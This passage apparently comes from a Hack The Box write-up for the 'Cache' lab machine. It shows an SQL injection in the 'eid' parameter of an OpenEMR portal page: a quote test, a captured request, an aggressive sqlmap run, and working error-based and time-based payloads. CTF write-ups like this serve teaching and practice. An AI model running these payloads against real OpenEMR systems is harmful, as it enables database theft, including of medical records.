 Sending value of `eid=1'` gives us an error. This is a very good sign. Now we can enumerate the whole database manually or can use automated tools like **sqlmap** to do the work for us.

## Using sqlmap to dump the database content
### Interepting the request with Burp
![10](/assets/images/cache/10.png)

### Saving the request to a file
```console
local@local:~/Documents/htb/boxes/cache$ cat cache.req 
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: ******************************************************************
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=sffvpek75jaiqrfde3642t5v5r; PHPSESSID=au170v2ra7cra8gti7c7bju9qa
Upgrade-Insecure-Requests: 1
```
## Running sqlmap
```console
local@local:~/Documents/htb/boxes/cache$ /opt/sqlmap-dev/sqlmap.py -r cache.req --batch --risk 3 --level 5                                                           [4/4]
        ___              
       __H__                               
 ___ ___[)]_____ ___ ___  {1.4.7.12#dev}
|_ -| . ["]     | .'| . |                                                                                                                                                       |___|_  [(]_|_|_|__,|  _|                                                                                                                                                       
      |_|V...       |_|   http://sqlmap.org
                                            
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and
 federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
....
GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 1584 HTTP(s) requests:
---
Parameter: eid (GET)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: eid=1 AND GTID_SUBSET(CONCAT(0x71706b7171,(SELECT (ELT(9379=9379,1))),0x717a767171),9379)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 2045 FROM (SELECT(SLEEP(5)))ObBH)
```